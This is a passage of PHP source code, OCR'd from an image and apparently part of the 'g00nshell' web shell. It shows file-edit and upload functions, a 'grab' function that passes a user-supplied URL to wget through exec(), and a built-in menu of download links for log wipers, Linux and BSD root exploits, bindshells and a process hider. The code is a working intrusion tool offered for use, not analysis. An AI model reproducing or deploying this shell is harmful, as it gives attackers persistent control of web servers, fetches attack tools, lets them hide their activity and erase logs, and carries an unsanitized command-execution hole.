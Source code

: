   echo(str_replace($bad, $good, $content)."\n");
  echo("&lt;/textarea&gt;");
  echo("&lt;input name='fileact' type='submit' value='Save'&gt;");
  echo("&lt;input name='fileact' type='submit' value='Delete'&gt;");
  echo("&lt;input name='fileact' type='submit' value='Download'&gt;");
  echo("&lt;/form&gt;");
}
function edit($file, $contents){ // File edit function
  style();
  $handle = fopen($file, 'w');
  fwrite($handle, $contents);
  fclose($handle);
  echo("Saved file.&lt;br&gt;&lt;br&gt;");
  echo("&lt;a href='?act=files'&gt;Go back&lt;/a&gt;");
}
function upload(){ // Uploading frontend function
  global $curdir;
  style();
  echo("&lt;form name='files' enctype='multipart/form-data' method='POST'&gt;
  &lt;b&gt;Output Directory&lt;/b&gt;&lt;br&gt;
  &lt;input type='text' name='loc' size='65' value='" . $curdir . "'&gt;&lt;br&gt;&lt;br&gt;
  &lt;b&gt;Remote Upload&lt;/b&gt;&lt;br&gt;
  &lt;input type='text' name='rem' size='65'&gt;
  &lt;input type='submit' value='Grab'&gt;&lt;br&gt;&lt;br&gt;
  &lt;b&gt;Local File Upload&lt;/b&gt;&lt;br&gt;
  &lt;input name='up' type='file' size='65'&gt;
  &lt;input type='submit' value='Upload'&gt;
  &lt;/form&gt;&lt;br&gt;");
  if($_POST['rem']){grab($_POST['rem']);}
  if($_FILES['up']){up($_FILES['up']);}
}
function up($up){ // Uploading backend function
  style();
  $updir = $_POST['loc'];
  move_uploaded_file($up["tmp_name"], $updir . "/" . $up["name"]);
  die("File has been uploaded.");
}
function grab($file){ // Uploading backend function
  style();
  $updir = $_POST['loc'];
  $filex = array_pop(explode("/", $file));
  if(exec("wget $file -b -O $updir/$filex")){die("File has been uploaded.");}
  else{die("File upload failed.");}
}
function tools(){ // Useful tools function
  global $curdir;
  style();
  $tools = array(
  "--- Log wipers ---"=&gt;"1",
  "Vanish2.tgz"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/vanish2.tgz",
  "Cloak.c"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/cloak.c",
  "gh0st.sh"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/gh0st.sh",
  "--- Priv Escalation ---"=&gt;"2",
  "h00lyshit - Linux 2.6 ALL"=&gt;"http://someshit.net/files/xpl/h00lyshit",
  "k-rad3 - Linux &lt;= 2.6.11"=&gt;"http://someshit.net/files/xpl/krad3",
  "raptor - Linux &lt;= 2.6.17.4"=&gt;"http://someshit.net/files/xpl/raptor",
  "rootbsd - BSD v?"=&gt;"http://someshit.net/files/xpl/rootbsd",
  "--- Bindshells ---"=&gt;"3",
  "THC rwwwshell-1.6.perl"=&gt;"http://packetstormsecurity.org/groups/thc/rwwwshell-1.6.perl",
  "Basic Perl bindshell"=&gt;"http://packetstormsecurity.org/groups/synnergy/bindshell-unix",
  "--- Misc ---"=&gt;"4",
  "MOCKS SOCKS4 Proxy"=&gt;"http://superb-east.dl.sourceforge.net/sourceforge/mocks/mocks-0.0.2.tar.gz",
  "xps.c (proc hider)"=&gt;"http://packetstormsecurity.org/groups/shadowpenguin/unix-tools/xps.c");

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png